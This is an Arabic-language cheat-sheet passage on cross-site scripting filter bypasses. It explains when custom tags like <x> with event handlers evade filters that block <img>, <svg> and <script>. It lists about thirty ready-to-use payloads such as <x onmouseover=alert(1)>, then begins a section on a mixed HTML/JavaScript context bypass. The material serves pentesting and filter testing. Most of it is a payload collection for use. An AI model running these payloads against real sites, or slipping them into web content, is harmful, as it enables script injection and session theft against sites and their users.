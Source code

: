 **📌 استخدمها لما:**

- كل الوسوم التقليدية محظورة (`<img>`, `<svg>`, `<script>`).
    
- تقدر تستخدم وسوم غير قياسية زي `<x>` أو `<a>` داخلي.
    
- والمعالجة بتعتمد على **تفاعل المستخدم**.
    

🧪 **مثال:**

```html
<x contenteditable onblur=alert(1)>click then unfocus</x>
```

**الخلاصة:**
ناقلات مع معالجات غير محددة مثل `<x onmouseover=alert(1)>hover this!` فعالة لأنها تستخدم علامات مخصصة ومعالجات متنوعة.

##### كل البايلود في الفكره دي 

```javascript
 <x contenteditable onblur=alert(1)>lose focus!
<x onclick=alert(1)>click this!
 <x oncopy=alert(1)>copy this!
<x oncontextmenu=alert(1)>>right click this!
<x onauxclick=alert(1)>>right click this!
 <x oncut=alert(1)>>copy this!
<x ondblclick=alert(1)>double click this!
<x ondrag=alert(1)>drag this!
<x contenteditable onfocus=alert(1)>focus this!
<x contenteditable oninput=alert(1)>input here!
<x contenteditable onkeydown=alert(1)>press any key!
<x contenteditable onkeypress=alert(1)>press any key!
<x contenteditable onkeyup=alert(1)>press any key!
<x onmousedown=alert(1)>click this!
<x onmouseenter=alert(1)>hover this
<x onmousemove=alert(1)>hover this!
<x onmouseout=alert(1)>hover this! 
<x onmouseover=alert(1)>hover this! 
<x onmouseup=alert(1)>click this! 
<x contenteditable onpaste=alert(1)>paste here!
<x onpointercancel=alert(1)>hover this! 
<x onpointerdown=alert(1)>hover this!
 <x onpointerenter=alert(1)>hover this!
 <x onpointerleave=alert(1)>hover this!
<x onpointermove=alert(1)>hover this!
 <x onpointerout=alert(1)>hover this! 
<x onpointerover=alert(1)>hover this!
<x onpointerup=alert(1)>hover this! 
 <x onpointerrawupdate=alert(1)>hover this!
```

---

### ==**1. تجاوز انعكاس السياق المختلط (Mixed Context Reflection Entity Bypass)**==
{  #XSS_Idea_for_script_tag  / #XSS_Idea_for_SVG_tag / #Inline_HTML_Injection }
**الشرح البسيط:**
يُستخدم عندما تُعكس البيانات في سياقين (HTML وJavaScript) بالترتيب، وتكون قريبة من بعضها. يُستغل `<svg>` لتحويل الكود المُنظف (مثل ترميز علامات الاقتباس) إلى JavaScript صالح، مما يُنفذ `alert(1)`.
